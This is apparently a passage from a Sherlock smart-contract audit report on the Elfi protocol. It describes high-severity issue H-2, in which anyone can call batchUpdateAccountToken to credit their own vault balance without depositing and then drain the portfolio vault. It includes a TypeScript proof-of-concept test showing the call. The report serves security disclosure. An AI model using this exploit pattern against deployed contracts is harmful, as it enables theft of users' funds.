 **sherlock-admin2**

The Lead Senior Watson signed off on the fix.

# Issue H-2: Anyone can change the balance of an account to drain the entire portfolio vault 

Source: https://github.com/sherlock-audit/2024-05-elfi-protocol-judging/issues/28 

## Found by 
0xPwnd, 0xrex, 1337, KingNFT, KrisRenZo, KupiaSec, PNS, Timenov, blackhole, debugging3, jah, jennifer37, joicygiore, link, mstpr-brainbot, pashap9990, qpzm, r0bert, tedox, volodya, whitehair0330
## Summary
Anyone can call `batchUpdateAccountToken` to update their balance in portfolio vault without depositing the tokens. 
## Vulnerability Detail
Simply call the function with desired amounts and withdraw the funds from portfolio vault

**Coded PoC:**
```typescript
it("Anyone Can change the balance as wish", async function () {
		const usdcAmount = precision.token(1000, 6);
		// do this so that the user0 account is exists
		await deposit(fixture, {
			account: user0,
			token: usdc,
			amount: usdcAmount,
		});

		// change the balance as you wish
		const updateAccParams = {
			account: user0.address,
			tokens: [usdcAddr, wbtcAddr],
			changedTokenAmounts: [
				precision.token(100_000, 6), // USDC with 6 decimals
				precision.token(100), // WBTC with default 18 decimals
			],
		};

		await accountFacet.connect(user0).batchUpdateAccountToken(updateAccParams);

		const accountInfo = await accountFacet.getAccountInfo(user0.address);
		console.log(
			"Account info before execute and after create request",
			accountInfo
		);
	});
```
## Impact
All funds in portfolio vault can be drained. 
## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71
## Tool used
